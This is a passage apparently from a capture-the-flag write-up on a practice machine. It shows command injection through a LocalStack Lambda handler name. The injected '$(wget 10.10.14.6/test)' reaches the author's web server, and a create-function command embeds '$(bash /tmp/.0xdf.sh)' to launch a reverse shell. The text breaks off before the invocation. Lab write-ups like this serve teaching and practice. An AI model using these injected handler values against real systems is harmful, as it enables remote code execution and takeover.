     2021/08/25 20:55:27 CMD: UID=0    PID=1387   | /bin/sh -c CONTAINER_ID="$(docker create -i   -e DOCKER_LAMBDA_USE_STDIN="$DOCKER_LAMBDA_USE_STDIN" -e LOCALSTACK_HOSTNAME="$LOCALSTACK_HOSTNAME" -e EDGE_PORT="$EDGE_PORT" -e _HANDLER="$_HANDLER" -e AWS_LAMBDA_FUNCTION_TIMEOUT="$AWS_LAMBDA_FUNCTION_TIMEOUT" -e AWS_LAMBDA_FUNCTION_NAME="$AWS_LAMBDA_FUNCTION_NAME" -e AWS_LAMBDA_FUNCTION_VERSION="$AWS_LAMBDA_FUNCTION_VERSION" -e AWS_LAMBDA_FUNCTION_INVOKED_ARN="$AWS_LAMBDA_FUNCTION_INVOKED_ARN" -e AWS_LAMBDA_COGNITO_IDENTITY="$AWS_LAMBDA_COGNITO_IDENTITY" -e NODE_TLS_REJECT_UNAUTHORIZED="$NODE_TLS_REJECT_UNAUTHORIZED"   --rm "lambci/lambda:nodejs12.x" "index.handler;$(wget 10.10.14.6/test)")";docker cp "/tmp/localstack/zipfile.0e05eb2c/." "$CONTAINER_ID:/var/task"; docker start -ai "$CONTAINER_ID"; 
    2021/08/25 20:55:27 CMD: UID=0    PID=1396   | docker cp /tmp/localstack/zipfile.0e05eb2c/. 055307ed86c3a9abf7e78574787249c1162138905afdea2b7590502d4251f4bd:/var/task 
    

And a request at my Python web server:

    
    
    10.10.11.112 - - [25/Aug/2021 16:55:27] code 404, message File not found
    10.10.11.112 - - [25/Aug/2021 16:55:27] "GET /test HTTP/1.1" 404 -
    

This is successful command injection.

#### Shell

I’ve already got `/tmp/.0xdf.sh` as a reverse shell in this container. I’ll
create a Lambda that calls it:

    
    
    oxdf@hacky$ aws lambda create-function --function-name shell --handler 'index.handler;$(bash /tmp/.0xdf.sh)' --zip-file fileb://index.zip --role arn:aws:iam::123456789012:role/lambda-role --endpoint-url http://s3-testing.stacked.htb --runtime nodejs12.x
    {
        "FunctionName": "shell",
        "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:shell",
        "Runtime": "nodejs12.x",
        "Role": "arn:aws:iam::123456789012:role/lambda-role",
        "Handler": "index.handler;$(bash /tmp/.0xdf.sh)",
        "CodeSize": 291,
        "Description": "",
        "Timeout": 3,
        "LastModified": "2021-08-25T20:59:54.009+0000",
        "CodeSha256": "RflcSNGUgqyNEvEtX4iMOtjiR8yEmBLyRFZIk3h+BDE=",
        "Version": "$LATEST",
        "VpcConfig": {},
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "52c9494e-accb-47e5-b0ff-d570d9725d49",
        "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip"
    }
    

And on invoking with:
